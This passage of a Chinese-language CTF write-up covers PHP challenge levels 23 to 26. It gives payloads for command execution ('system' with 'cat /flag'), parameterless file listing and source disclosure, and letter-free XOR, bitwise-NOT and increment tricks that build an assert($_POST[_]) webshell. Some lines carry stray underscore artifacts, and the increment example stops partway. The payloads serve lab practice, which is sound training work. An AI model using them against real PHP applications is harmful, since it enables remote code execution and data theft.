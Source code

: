 ```
?a=system&b=cat /flag
```

Level 23 : PHP 特性 - 自增

 

Level 24 : PHP 特性 - 无参命令执行 

```
?code=var_dump(scandir(current(localeconv())));
```

得到数组 `array(6) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(8) "flag.php" [3]=> string(12) "get_flag.php" [4]=> string(9) "index.php" [5]=> string(7) "uploads" }` 

```
?code=show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`是随机返回一个数组,多刷新几次就出来了

Level 25 : PHP 特性 - 取反绕过 

上一题的payload，反转完了多刷新几次就得到了get_flag.php

Level 26 : PHP 特性 - 无字母数字的代码执行

两种解法

第一种是异或

```
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); 
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); 
$___=$$__;
$_($___[_]);//assert($_POST[_]);
```

或者
```
$_ = "!((%)("^"@[[@[\\";   $__ = "!+/(("^"~{`{|";   $___ = $$__;   $_($___[_]); 
```

第二种是取反

```
$_ = ~"%9e%8c%8c%9a%8d%8b";   //得到assert，此时$_="assert"_

_$__ = ~"%a0%af%b0%ac%ab";   //得到_POST，此时$__="_POST"___

___$___ = $$__;   //$___=$_POST_

_$_($___[_]); 
```

方法三：自增自减

```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
```